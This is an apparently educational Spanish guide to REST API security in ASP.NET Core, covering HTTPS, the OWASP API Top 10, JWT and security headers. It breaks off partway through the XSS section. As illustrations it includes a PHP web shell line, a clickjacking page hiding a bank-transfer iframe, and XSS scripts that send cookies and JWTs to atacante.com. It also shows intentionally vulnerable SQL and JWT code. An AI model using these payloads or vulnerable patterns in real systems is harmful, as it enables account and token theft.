# 28. Seguridad en APIs REST - Guía Didáctica

## Índice

- [28. Seguridad en APIs REST - Guía Didáctica](#28-seguridad-en-apis-rest---guía-didáctica)
  - [28.1. Introducción a la Seguridad Web](#281-introducción-a-la-seguridad-web)
  - [28.2. El Protocolo HTTPS](#282-el-protocolo-https)
  - [28.3. Vulnerabilidades Comunes en APIs](#283-vulnerabilidades-comunes-en-apis)
  - [28.4. Autenticación y Autorización Segura](#284-autenticación-y-autorización-segura)
  - [28.5. Security Headers](#285-security-headers)
  - [28.6. Rate Limiting](#286-rate-limiting)
  - [28.7. Validación de Entrada](#287-validación-de-entrada)
  - [28.8. CORS Seguro](#288-cors-seguro)
  - [28.9. Logging y Monitoreo de Seguridad](#289-logging-y-monitoreo-de-seguridad)
  - [28.10. Checklist de Seguridad](#2810-checklist-de-seguridad)
  - [28.11. Resumen](#2811-resumen)
  - [28.12. Recursos Adicionales](#2812-recursos-adicionales)

---

## 28.1. Introducción a la Seguridad Web

### ¿Por qué es importante la seguridad en APIs?

Las APIs REST son el objetivo más común de ataques cibernéticos porque exponen funcionalidad y datos a través de internet. Una API insegura puede resultar en:
- Robo de datos sensibles (credenciales, información personal)
- Acceso no autorizado a recursos
- Denegación de servicio
- Compromiso de sistemas relacionados



### Conceptos Fundamentales de Seguridad

| Concepto | Descripción | Ejemplo |
|----------|-------------|---------|
| **Confidencialidad** | Solo usuarios autorizados pueden acceder | HTTPS + Encriptación |
| **Integridad** | Los datos no han sido modificados | Firmas digitales |
| **Disponibilidad** | El sistema está operativo | Rate limiting + Backups |
| **Autenticación** | Verificar identidad del usuario | JWT + Password hashing |
| **Autorización** | Controlar permisos de acceso | Roles + Policies |

### La Tríada CIA de la Seguridad



---

## 28.2. El Protocolo HTTPS

### ¿Qué es HTTPS?

HTTPS (HTTP Secure) es la versión encriptada de HTTP que usa TLS (Transport Layer Security) para proteger la comunicación entre cliente y servidor.

### El Problema con HTTP



### Vulnerabilidades Sin HTTPS

| Vulnerabilidad | Descripción | Impacto |
|----------------|-------------|---------|
| **Eavesdropping** | Interceptar comunicaciones | Robo de credenciales, tokens JWT |
| **Man-in-the-Middle** | Modificar requests/responses | Inyección de código, manipulación de datos |
| **Session Hijacking** | Robar cookies de sesión | Acceso no autorizado a cuentas |
| **DNS Spoofing** | Redirigir a sitios falsos | Phishing, robo de credenciales |

### La Solución: HTTPS



### Configuración de HTTPS en ASP.NET Core

```csharp
var builder = WebApplication.CreateBuilder(args);

// Configurar redirección HTTPS
builder.Services.AddHttpsRedirection(options =>
{
    options.RedirectStatusCode = StatusCodes.Status301MovedPermanently;
    options.HttpsPort = 443;
});

var app = builder.Build();

// HSTS - Solo en producción
if (!app.Environment.IsDevelopment())
{
    app.UseHsts(options =>
    {
        options.MaxAge = TimeSpan.FromDays(365);
        options.IncludeSubDomains = true;
        options.Preload = true;
    });
    app.UseHttpsRedirection();
}

app.UseAuthentication();
app.UseAuthorization();
app.MapControllers();

app.Run();
```

### HTTP Strict Transport Security (HSTS)

HSTS indica al navegador que solo debe acceder al sitio mediante HTTPS, rechazando conexiones HTTP.



### Comparación HTTP vs HTTPS

| Aspecto | HTTP | HTTPS |
|---------|------|-------|
| **Cifrado** | Ninguno (texto plano) | TLS 1.3 (AES-256) |
| **Puerto** | 80 | 443 |
| **Certificado** | No requerido | SSL/TLS requerido |
| **SEO** | Penalizado | Beneficiado |
| **Seguridad** | Vulnerable | Protegido |

---

## 28.3. Vulnerabilidades Comunes en APIs

### OWASP Top 10 para APIs

```mermaid
graph TD
    A[OWASP Top 10 APIs] --> B[API1: Broken Object Level Authorization]
    A --> C[API2: Broken User Authentication]
    A --> D[API3: Excessive Data Exposure]
    A --> E[API4: Lack of Resources & Rate Limiting]
    A --> F[API5: Broken Function Level Authorization]
    A --> G[API6: Mass Assignment]
    A --> H[API7: Security Misconfiguration]
    A --> I[API8: Injection]
    A --> J[API9: Improper Assets Management]
    A --> K[API10: Insufficient Logging & Monitoring]
    
    style A fill:#e74c3c,color:#fff
    style B fill:#f39c12,color:#000
    style C fill:#f39c12,color:#000
    style D fill:#f39c12,color:#000
    style E fill:#f39c12,color:#000
    style F fill:#f39c12,color:#000
    style G fill:#f39c12,color:#000
    style H fill:#f39c12,color:#000
    style I fill:#f39c12,color:#000
    style J fill:#f39c12,color:#000
    style K fill:#f39c12,color:#000
```

### API1: Broken Object Level Authorization (BOLA)

**Descripción:** Un usuario puede acceder a objetos que no le pertenecen.

```csharp
// ❌ VULNERABLE: Sin verificación de propiedad
[HttpGet("productos/{id}")]
public async Task<IActionResult> GetProducto(long id)
{
    var producto = await _productoService.GetByIdAsync(id);
    return Ok(producto);
}

// ✅ SEGURO: Verificación de propiedad
[HttpGet("productos/{id}")]
public async Task<IActionResult> GetProducto(long id)
{
    var userId = User.FindFirst("userId")?.Value;
    var result = await _productoService.GetByIdAsync(id, userId);
    
    return result.Match(
        producto => Ok(producto),
        error => NotFound(new { error = error.Message })
    );
}
```

### API2: Broken User Authentication

**Descripción:** Mecanismos de autenticación inseguros.

```csharp
// ❌ VULNERABLE: JWT sin verificación
var tokenHandler = new JwtSecurityTokenHandler();
var token = tokenHandler.ReadJwtToken(token);

// ✅ SEGURO: Validación completa
var tokenHandler = new JwtSecurityTokenHandler();
var key = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secretKey));

var validationParameters = new TokenValidationParameters
{
    ValidateIssuer = true,
    ValidateAudience = true,
    ValidateIssuerSigningKey = true,
    IssuerSigningKey = key,
    ValidateLifetime = true,
    ClockSkew = TimeSpan.Zero
};

var principal = tokenHandler.ValidateToken(token, validationParameters, out _);
```

### API8: Inyección (SQL Injection)

**Descripción:** Inputs maliciosos que ejecutan código no autorizado.

```csharp
// ❌ VULNERABLE: SQL Injection
[HttpGet("productos")]
public async Task<IActionResult> GetProductos([FromQuery] string nombre)
{
    var sql = $"SELECT * FROM productos WHERE nombre LIKE '%{nombre}%'";
    var productos = await _db.QueryAsync<Producto>(sql);
    return Ok(productos);
}

// ✅ SEGURO: Parámetros
[HttpGet("productos")]
public async Task<IActionResult> GetProductos([FromQuery] string nombre)
{
    var productos = await _db.Productos
        .Where(p => p.Nombre.Contains(nombre))
        .ToListAsync();
    return Ok(productos);
}
```

---

## 28.4. Autenticación y Autorización Segura

### JWT Best Practices

```csharp
public class JwtService
{
    public string GenerateToken(User user)
    {
        var key = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secretKey));
        var creds = new SigningCredentials(key, SecurityAlgorithms.HmacSha256);

        var claims = new[]
        {
            new Claim(JwtRegisteredClaimNames.Sub, user.Id.ToString()),
            new Claim(JwtRegisteredClaimNames.Email, user.Email),
            new Claim(JwtRegisteredClaimNames.Jti, Guid.NewGuid().ToString()),
            new Claim(JwtRegisteredClaimNames.Exp, 
                DateTimeOffset.UtcNow.AddMinutes(15).ToUnixTimeSeconds().ToString()),
            new Claim(JwtRegisteredClaimNames.Iat, 
                DateTimeOffset.UtcNow.ToUnixTimeSeconds().ToString()),
        };

        var token = new JwtSecurityToken(
            issuer: "TiendaApi",
            audience: "TiendaApiClients",
            claims: claims,
            expires: DateTime.UtcNow.AddMinutes(15),
            signingCredentials: creds
        );

        return new JwtSecurityTokenHandler().WriteToken(token);
    }
}
```

### Claims vs Roles

| Concepto | Uso | Ejemplo |
|----------|-----|---------|
| **Roles** | Permisos grupales | `ADMIN`, `USER` |
| **Claims** | Información específica | `email`, `permissions` |

```csharp
// Autorización por roles
[Authorize(Roles = "Admin")]
public class AdminController : ControllerBase { }

// Autorización por políticas
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("CanDelete", policy =>
        policy.RequireAssertion(context =>
            context.User.IsInRole("Admin") ||
            context.User.HasClaim("permission", "delete")));
});
```

### Claims Personalizados

```csharp
// En JwtService
var claims = new List<Claim>
{
    new Claim(JwtRegisteredClaimNames.Sub, user.Id.ToString()),
    new Claim(JwtRegisteredClaimNames.Email, user.Email),
    new Claim(ClaimTypes.Role, user.Role),
    new Claim("permissions", "read write delete"),  // Claim personalizado
    new Claim("createdAt", DateTime.UtcNow.ToString("O"))
};
```

---

## 28.5. Security Headers

### ¿Por qué security headers?

Los security headers añaden capas de protección contra ataques comunes web. Cada header mitiga un tipo específico de vulnerabilidad.



### 28.5.1. X-Content-Type-Options: nosniff - Protección contra MIME Sniffing

#### ¿Qué es MIME Sniffing?

El **MIME Sniffing** es una característica del navegador que intenta adivinar el tipo de archivo basándose en su contenido, en lugar de confiar en el Content-Type declarado por el servidor. Aunque parece útil, esta funcionalidad puede ser explotada por atacantes.

#### ¿Cómo funciona el ataque?



#### Ejemplo de vulnerabilidad

Un atacante sube un archivo que parece una imagen pero contiene código PHP malicioso:

```php
<?php
// Archivo aparentemente como imagen pero contiene PHP
// El navegador podría ejecutarlo si hace "sniffing" del contenido

system($_GET['cmd']);  // Ejecución remota de comandos
```

El escenario:
1. Atacante sube archivo con extensión `.jpg` pero contenido PHP
2. Servidor lo almacena sin validar el contenido real
3. Usuario descarga el archivo
4. Navegador detecta contenido PHP y lo ejecuta en lugar de mostrarlo como imagen

#### Solución: X-Content-Type-Options

```http
X-Content-Type-Options: nosniff
```

Este header le indica al navegador que:
- **NO** debe adivinar el tipo de archivo
- Debe respetar estrictamente el Content-Type declarado
- Si el tipo no coincide con lo esperado, bloquear la solicitud

```csharp
// Configuración del header
context.Response.Headers["X-Content-Type-Options"] = "nosniff";
```

#### Comparación: Con y sin protección

| Escenario | Sin nosniff | Con nosniff |
|-----------|-------------|-------------|
| Archivo con contenido incorrecto | El navegador intenta adivinar | Bloquea la solicitud |
| Subida de archivos maliciosos | Puede ejecutarse | Previene ejecución |
| Seguridad | Vulnerable | Protegido |

---

### 28.5.2. X-Frame-Options: DENY - Protección contra Clickjacking

#### ¿Qué es Clickjacking?

El **Clickjacking** (secuestro de clics) es un ataque donde el atacante superpone una página legítima con un iframe invisible, engañando al usuario para que haga clic en botones ocultos que realizan acciones no deseadas.

#### ¿Cómo funciona el ataque?



#### Ejemplo de código malicioso

El atacante crea una página que parece inofensiva:

```html
<!DOCTYPE html>
<html>
<head>
    <title>¡Gana un Premio!</title>
    <style>
        body {
            margin: 0;
            padding: 20px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            font-family: Arial, sans-serif;
            text-align: center;
            color: white;
        }
        
        .video-container {
            position: relative;
            width: 100%;
            max-width: 600px;
            margin: 0 auto;
        }
        
        iframe {
            position: absolute;
            top: 180px;
            left: 50%;
            transform: translateX(-50%);
            width: 400px;
            height: 60px;
            opacity: 0;  /* Invisible */
            border: none;
        }
        
        .fake-button {
            background: linear-gradient(135deg, #f6d365 0%, #fda085 100%);
            padding: 15px 40px;
            border-radius: 30px;
            font-size: 18px;
            cursor: pointer;
            margin-top: 20px;
        }
        
        .prize {
            background: linear-gradient(135deg, #84fab0 0%, #8fd3f4 100%);
            padding: 20px;
            border-radius: 10px;
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <div class="video-container">
        <div class="prize">
            <h1>🎁 ¡Felicidades!</h1>
            <p>Has sido seleccionado para ganar un premio exclusivo</p>
        </div>
        
        <!-- IFRAME INVISIBLE con la página del banco -->
        <iframe 
            src="https://mi-banco.com/transferir?cuenta=atacante&monto=10000">
        </iframe>
        
        <button class="fake-button">🎬 Ver Video para Reclamar</button>
        
        <p style="margin-top: 20px; opacity: 0.7;">
            Comparte este video para activar tu premio
        </p>
    </div>
</body>
</html>
```

#### El problema

El usuario ve un botón aparentemente inofensivo ("Ver Video") pero en realidad está haciendo clic en el botón de transferir dinero del banco que está en un iframe invisible superpuesto.

#### Solución: X-Frame-Options

```http
X-Frame-Options: DENY
```

Este header le indica al navegador que la página **NO debe** mostrarse dentro de un iframe.

#### Valores posibles

| Valor | Descripción | Uso |
|-------|-------------|-----|
| `DENY` | La página no puede mostrarse en ningún iframe | Máxima seguridad |
| `SAMEORIGIN` | Solo puede mostrarse en iframes del mismo origen | Permite iframes propios |
| `ALLOW-FROM uri` | Permite iframes de un origen específico | Deprecated, usar CSP |

```csharp
// Configuración del header
context.Response.Headers["X-Frame-Options"] = "DENY";
```

#### Comparación: Con y sin protección

| Escenario | Sin X-Frame-Options | Con X-Frame-Options |
|-----------|---------------------|---------------------|
| Página en iframe | Se muestra | Se bloquea |
| Clickjacking | Possible | Previene |
| ui-frame attack | Vulnerable | Protegido |

---

### 28.5.3. X-XSS-Protection: 1; mode=block - Protección contra XSS

#### ¿Qué es XSS?

**XSS (Cross-Site Scripting)** es un ataque donde el atacante inyecta código JavaScript malicioso que se ejecuta en el navegador de la víctima. Es uno de los ataques más comunes y peligrosos en aplicaciones web.

#### Tipos de XSS



#### Stored XSS (XSS Persistente)

El código malicioso se guarda en la base de datos y se ejecuta cada vez que un usuario ve el contenido:



#### Ejemplo de ataque Stored XSS

Un atacante publica un comentario en un producto:

```html
<!-- Comentario en un producto -->
<script>
    // Este script se ejecuta en el navegador de todos los usuarios
    fetch('https://atacante.com/robar?cookie=' + document.cookie);
</script>

<!-- Versión más sofisticada que roba tokens JWT -->
<script>
    const token = localStorage.getItem('jwt_token');
    fetch('https://atacante.com/api/robartoken', {
        method: 'POST',
        body: JSON.stringify({ token: token }),
        headers: { 'Content-Type': 'application/json' }
    });
</script>
```

Cuando otro usuario ve el comentario, sus cookies/tokens son robados.

#### Reflected XSS (XSS Reflejado)

El código malicioso viene en la URL y se refleja en la respuesta:

```csharp
// ❌ VULNERABLE: Reflected XSS
[HttpGet("buscar")]
public IActionResult Buscar(string query)
{
    // Devuelve el input del usuario directamente sin escapar
    return View(new { query });  // query contiene el script malicioso
}

// URL maliciosa:
// https://api.com/buscar?query=<script>alert('XSS')</script>
```

#### DOM-based XSS

El ataque ocurre completamente en el cliente:

```javascript
// ❌ VULNERABLE: DOM-based XSS
const param = new URLSearchParams(window.location.search).get('nombre');
document.getElementById('bienvenida').innerHTML = 'Hola, ' + param;

// URL maliciosa:
// https://api.com/pagina?nombre=
```

#### Solución: X-XSS-Protection

```http
X-XSS-Protection: 1; mode=block
```

Este header activa el filtro XSS del navegador:
- `1`: Activa el filtro
